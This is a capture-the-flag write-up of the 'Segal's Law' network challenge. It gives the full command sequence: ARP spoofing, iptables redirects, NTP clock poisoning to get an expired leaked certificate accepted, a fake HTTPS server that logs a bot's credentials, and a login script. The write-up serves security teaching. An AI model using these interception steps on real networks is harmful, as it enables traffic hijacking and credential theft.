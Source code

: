 ## Segal's Law (Network Exploit, 175pt)

> "A man with a watch knows what time it is. A man with two watches is never sure." - [Segal's Law](https://en.wikipedia.org/wiki/Segal%27s_law)
> 
> The third piggy (from Brick House) isn't too happy. Maybe you can make it up to him by contributing to his open-source web app

This was the last challenge in the Network Exploit category, created by [@nategraf](https://github.com/nategraf). It was actually the first time I worked on such special challenges in a CTF and based on my experience with *Segal's Law* I can say I really enjoyed it.

Speaking with [@nategraf](https://github.com/nategraf), he told me that all Network Exploit challenges were hosted in his platform ([Naumachia](https://github.com/nategraf/Naumachia)) that he has also [integrated with CTFd](https://github.com/nategraf/ctfd-naumachia-plugin) and open-sourced both - so lots of thumbs up go to him!

---

The challenge was not standalone and required information from the previous task, Brick House. Briefly, while performing a MiTM attack in the previous challenge, we could see the files of a web application being listed. This web application was our target for Segal's Law. While looking at the source of the files I observed a username (`catdaddy97`) in the `LICENSE` file. Combining this information with the challenge description (*"open-source web app"*), we found the [application source at GitHub](https://github.com/catdaddy97/catfacts). So, let's get started.


#### Network Mapping

We connect to the provided VPN and get access to the network `172.16.3.208/28` (each team had its own docker containers with a different dynamically allocated address space). Following the common steps of host discovery, port mapping, and also observing ARP requests in Wireshark for possible communication between the hosts, we have the findings given below:

```
172.16.3.210
172.16.3.211  <--- HTTPS Server (443/tcp)
172.16.3.212  <--- NTP Server   (123/udp)
172.16.3.213  <--- Client/Bot
```

Doing some `arpspoof` between the client and the servers, we are able to draw a more specific diagram of the network and the communications between them.

```
      HTTPS Server         NTP Server
    +--------------+    +--------------+
    | 172.16.3.211 |    | 172.16.3.212 |
    +--------------+    +--------------+
       (443/tcp) ^        ^ (123/udp)
                 |        |
                 |        |
                 |        |
              +--+--------+--+
              | 172.16.3.213 |
              +--------------+
                 Client/Bot
```


#### Catfacts application

![](catfacts.png)

Catfacts is actually an application that allows users to view random facts about cats. However, logged in users have access to a bonus fact which we can assume is the flag we must capture.

As said earlier, we already have the [application source code](https://github.com/catdaddy97/catfacts). Quickly reviewing the source code we find out that there are no vulnerabilities we could exploit. We also tried to use the default (harcoded) credentials but that would be too easy.

Looking into the [commit history](https://github.com/catdaddy97/catfacts/commits/master) of the repository we see there has been an accidental commit of a SSL certificate alongside the private key. So, we download the files and inspect the certificate.

```
❯❯❯ wget https://raw.githubusercontent.com/catdaddy97/catfacts/a371c28f3b6528f1e99052060564c1f248a3b922/certs/catfacts.naum.key
❯❯❯ wget https://raw.githubusercontent.com/catdaddy97/catfacts/a371c28f3b6528f1e99052060564c1f248a3b922/certs/catfacts.naum.crt
❯❯❯ openssl x509 -in catfacts.naum.crt -text -noout
...
        Serial Number:
            d7:e1:68:24:27:56:d3:02
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: C=US, ST=WA, L=Seattle, O=Naumachia CA, CN=ca.naum
        Validity
            Not Before: Nov 20 18:53:15 2016 GMT
            Not After : Nov 20 18:53:15 2017 GMT
        Subject: C=US, ST=WA, L=Seattle, O=The One and Only Cat Daddy, CN=catfacts.naum
...
```

The certificate has been signed by a local CA (`ca.naum`) but it has expired since November 2017. Now, let's inspect the live certificate.

```
❯❯❯ openssl s_client -showcerts -connect 172.16.3.211:443 < /dev/null | openssl x509 -text -noout
...
        Serial Number:
            d7:e1:68:24:27:56:d3:04
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: C=US, ST=WA, L=Seattle, O=Naumachia CA, CN=ca.naum
        Validity
            Not Before: Nov 12 15:33:00 2017 GMT
            Not After : Nov 12 15:33:00 2018 GMT
        Subject: C=US, ST=WA, L=Seattle, O=The One and Only Cat Daddy, CN=catfacts.naum
...
```

It seems that the application is using a renewed certificate, signed by the same local CA (`ca.naum`). That means that the client will happily accept such certificates if they are not expired!


#### Summary

* The client syncs his hardware clock with the NTP server (`172.16.3.212`).
* The client uses the application over HTTPS and we cannot intercept the communication since we don't have the certificate key for the live certificate and tools such as `sslstrip` or `sslsplit` (to forge a certificate) won't work with our expired cert.
* It seems that the client will accept certificates signed by the `ca.naum` authority and it happens that we have been able to acquire such a certificate even though it has expired.


#### The attack

**Strategy:**

* Perform MiTM between the client and the NTP server and poison the client's clock so it will accept our expired certificate.
* Clone and run the application locally and perform MiTM between the client and the HTTPS server in order to intercept the requests unencrypted.

Since the plan is to perform a MiTM attack, we first enable IP forwarding.

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

Next, we need to setup a couple `iptables` rules to handle redirection of packets. First, we want to forward NTP packets to [`delorean`](https://github.com/PentesterES/Delorean) so that NTP poisoning can take place. We also need a rule to forward HTTPS packets to our local Flask instance.

```
iptables -t nat -A PREROUTING -p udp --dport 123 -j REDIRECT --to 1123
iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to 8443
```

Perform MiTM between the bot and the NTP server and poison the bot's clock.

```
./delorean.py -n -p 1123 -d "2017-11-01 00:00"
arpspoof -i tap0 -t 172.16.3.212 -r 172.16.3.213
```

Finally, we perform MiTM between the bot and the HTTPS server, clone the catfacts application from Gtihub and perform a few tweaks so that it uses the expired certificate we own, and it also logs the POST data in login requests. The final version of the code can be found in the [catfacts](catfacts/) folder.

```
arpspoof -i tap0 -t 172.16.3.211 -r 172.16.3.213
```

```
❯❯❯ python catfacts.py 
 * Running on https://0.0.0.0:8443/ (Press CTRL+C to quit)
 * Restarting with inotify reloader
 * Debugger is active!
 * Debugger PIN: 204-472-512
172.16.2.116 - - [21/Feb/2018 04:54:17] "GET / HTTP/1.1" 200 -
172.16.2.116 - - [21/Feb/2018 04:54:21] "GET / HTTP/1.1" 200 -
172.16.2.116 - - [21/Feb/2018 04:54:23] "GET / HTTP/1.1" 200 -
--------------------------------------------------------------------------------
DEBUG in catfacts [catfacts.py:66]:
USER: catdaddy, PASS: YZ555N5MZCE2G6FAJTI367WTYQFFUMV2WB4Z4CLI4OAVRCUFQLHA
--------------------------------------------------------------------------------
172.16.2.116 - - [21/Feb/2018 04:54:26] "POST /login HTTP/1.1" 302 -
172.16.2.116 - - [21/Feb/2018 04:54:27] "GET / HTTP/1.1" 200 -
172.16.2.116 - - [21/Feb/2018 04:54:30] "GET / HTTP/1.1" 200 -
```

```
import re
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

_target = 'https://172.16.2.117/'
_user, _pass = 'catdaddy', 'YZ555N5MZCE2G6FAJTI367WTYQFFUMV2WB4Z4CLI4OAVRCUFQLHA'

sess = requests.Session()

# get csrf token
resp = sess.get(_target, verify=False)
csrf_token = re.search(r'value="([^"]{25,})"', resp.text).group(1)

# login and get flag
resp = sess.post(_target + 'login', data={'user': _user, 'passwd': _pass, 'csrf_token': csrf_token}, verify=False)
flag = re.search(r'gigem{([^}]+)}', resp.text).group(1)
print '[+] flag: gigem{{{}}}'.format(flag)
```

![](flag.png)
